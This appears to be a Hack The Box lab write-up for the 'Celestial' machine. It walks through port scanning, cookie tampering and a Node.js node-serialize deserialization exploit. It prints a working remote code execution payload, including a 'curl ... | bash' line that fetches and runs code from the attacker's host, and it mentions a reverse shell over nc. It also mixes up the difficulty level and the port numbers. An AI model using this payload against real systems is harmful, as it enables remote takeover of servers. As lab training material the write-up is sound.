 ```yaml
---
layout: writeup
category: HTB
date: 2024-12-29
comments: false
tags: test crypto
---
```


![Machine-Icon](../../../assets/images/Celestial/Celestial.png)


OS -> Linux.

Difficulty -> Medium.

# Introduction:

Hello hackers! Today we will be solving the Celestial Machine. An easy difficulty Machine in which we will have to exploit a deserialization attack in node.js that will allow us to gain access to the System. Once inside, we will carry out the privilege escalation by exploiting a Python script executed by root at time intervals in the system.

Without further ado, let's get to the first phase, the enumeration phase!

# Enumeration:

We start by running the typical nmap scan to see which ports are open:

```bash
❯ nmap -p- 10.10.10.85 --open --min-rate 5000 -sS -T5 -Pn -n -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-29 19:31 CET
Nmap scan report for 10.10.10.85
Host is up (0.076s latency).
Not shown: 64449 closed tcp ports (reset), 1085 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.04 seconds
```


As we can see, nmap has only detected Port 3000 open, node.js default port, so we proceed to list it and find the following:


![1](../../../assets/images/Celestial/1.png)


At first glance, it doesn't seem interesting at all, but when intercepting the request with Burp Suite we find the following:

![2](../../../assets/images/Celestial/2.png)

# Node JS Deserilization 

The cookie appears to be in base64, so let's apply a decode:

```bash
❯ echo -n 'eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ==' | base64 -d
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
```

Let's try to control the output of the page manipulating the cookie vault and resending it with Burp Suite:

```bash
❯ echo -n '{"username":"Clever","country":"TheBest","city":"Barcelona","num":"10000"}' | base64 -w 0
eyJ1c2VybmFtZSI6IkNsZXZlciIsImNvdW50cnkiOiJUaGVCZXN0IiwiY2l0eSI6IkJhcmNlbG9uYSIsIm51bSI6IjEwMDAwIn0=
```

![3](../../../assets/images/Celestial/3.png) 

We have been able! The server has interpreted the serialized data that we have sent it without any control. So if we build a malicious payload we can try to execute commands on the system.

## Crafting a Malicious Serialized Payload:

To probe our theory, we are going to craft a payload to receive a curl from the victim machine in a localhost server hosted in our port 8082.

To do this we will use a data serializer that we have taken from the following website -> [https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

```js
var y = {
 rce : function(){
 require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });
 },
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

We run it to get the payload:

```bash
❯ js serialize.js
Serialized: 
{"rce":"_$$ND_FUNC$$_function(){\n require('child_process').exec('curl 10.10.14.13 | bash', function(error, stdout, stderr) { console.log(stdout) });\n }"}
```

# IIFE (Inmediately Invoked Function Expression):

Well, we already have the Payload ready, but it's not all there yet. In order for the server to execute our command, we will have to enter the IIFE in our payload, otherwise, no command will be executed when the server deserializes our serialized data. 

For people who do not know what the IIFE is, here is a resource that will come in handy -> [https://www.geeksforgeeks.org/immediately-invoked-function-expressions-iife-in-javascript/](https://www.geeksforgeeks.org/immediately-invoked-function-expressions-iife-in-javascript/)

![4](../../../assets/images/Celestial/4.png)


Once the IIFE has been entered, we store the data in a file and apply a base64 decode:


```bash
❯ cat data | base64 -w 0
eyJyY2UiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24oKXtcbiByZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlYygnY3VybCAxMC4xMC4xNC4xMyB8IGJhc2gnLCBmdW5jdGlvbihlcnJvciwgc3Rkb3V0LCBzdGRlcnIpIHsgY29uc29sZS5sb2coc3Rkb3V0KSB9KTtcbiB9KCkifQoKCgoKCgoKCgoKCgoK
```

Now that we have the data, we go back to Burp Suite and replace the cookie, we set up a server with Python on port 8082, click on resend and... surprise!! We have received the curl from the Victim Machine!!

![5](../../../assets/images/Celestial/5.png)

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.85 - - [29/Dec/2024 21:30:34] "GET / HTTP/1.1" 200 -
```

As we have already verified the remote execution of commands, we proceed to create a index.html to be able to establish a reverse shell and gain access once and for all to the Victim Machine by repeating the previous process but listening with nc through port 443 of our Machine:

![6](../../../assets/images/Celestial/6.png)

